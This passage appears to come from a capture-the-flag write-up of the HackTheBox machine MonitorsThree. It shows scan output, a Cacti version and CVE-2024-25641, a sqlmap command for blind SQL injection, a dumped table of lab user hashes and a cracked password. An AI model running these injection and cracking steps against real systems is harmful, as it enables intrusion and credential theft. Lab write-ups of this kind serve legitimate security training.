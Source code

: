 ```bash
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://cacti.monitorsthree.htb/cacti/
[http-missing-security-headers:permissions-policy] [http] [info] http://cacti.monitorsthree.htb/cacti/
[http-missing-security-headers:clear-site-data] [http] [info] http://cacti.monitorsthree.htb/cacti/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://cacti.monitorsthree.htb/cacti/
[http-missing-security-headers:referrer-policy] [http] [info] http://cacti.monitorsthree.htb/cacti/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://cacti.monitorsthree.htb/cacti/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://cacti.monitorsthree.htb/cacti/
[http-missing-security-headers:strict-transport-security] [http] [info] http://cacti.monitorsthree.htb/cacti/
[http-missing-security-headers:x-content-type-options] [http] [info] http://cacti.monitorsthree.htb/cacti/
[waf-detect:nginxgeneric] [http] [info] http://cacti.monitorsthree.htb/
[INF] Skipped cacti.monitorsthree.htb:80 from target list as found unresponsive 30 times
[ssh-sha1-hmac-algo] [javascript] [info] cacti.monitorsthree.htb:22
[ssh-server-enumeration] [javascript] [info] cacti.monitorsthree.htb:22 ["SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10"]
[ssh-auth-methods] [javascript] [info] cacti.monitorsthree.htb:22 ["["publickey"]"]
```

* The login panel leaked the version of `cacti`: `1.2.26` 
* Discovered a vulnerability in this particular version: [vuln](https://www.rapid7.com/db/modules/exploit/multi/http/cacti_package_import_rce/) 
* `CVE-2024-25641`

## FootHold 

### Exploiting The Vulnerability 

* The vulnerability can only be exploited if the user is authenticated 

#### Finding Password For Login Panel 

* I captured the login request from burp suite of `forgot_password.php`, `login.php` and `reset_password.php`. Saved all the requests to `requests` 

* Run `sqlmap` to dump the database 
```bash
sqlmap -r requests/ --dbms=mysql --technique=B --dbs
```

* The DB revealed hashes, I cracked them using `john` 
* One hash showed me the password: `greencacti2001` 

```
MariaDB [monitorsthree_db]> select * from users  
    -> ;  
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+  
| id | username  | email                      | password                        | name              | position              | dob        | start_date | salary  
|  2 | admin    | admin@monitorsthree.htb    | 31a181c8372e3afc59dab863430610e8 | Marcus Higgins    | Super User            | 1978-04-25 | 2021-01-12 | 320800.00 |  
|  5 | mwatson  | mwatson@monitorsthree.htb  | c585d01f2eb3e6e1073e92023088a3dd | Michael Watson    | Website Administrator | 1985-02-15 | 2021-05-10 |  75000.00 |  
|  6 | janderson | janderson@monitorsthree.htb | 1e68b6eb86b45f6d92f8f292428f77ac | Jennifer Anderson | Network Engineer      | 1990-07-30 | 2021-06-20 |  68000.00 |  
|  7 | dthompson | dthompson@monitorsthree.htb | 633b683cc128fe244b00f176c8a950f5 | David Thompson    | Database Manager      | 1982-11-23 | 2022-09-15 |  83000.00 |  
```
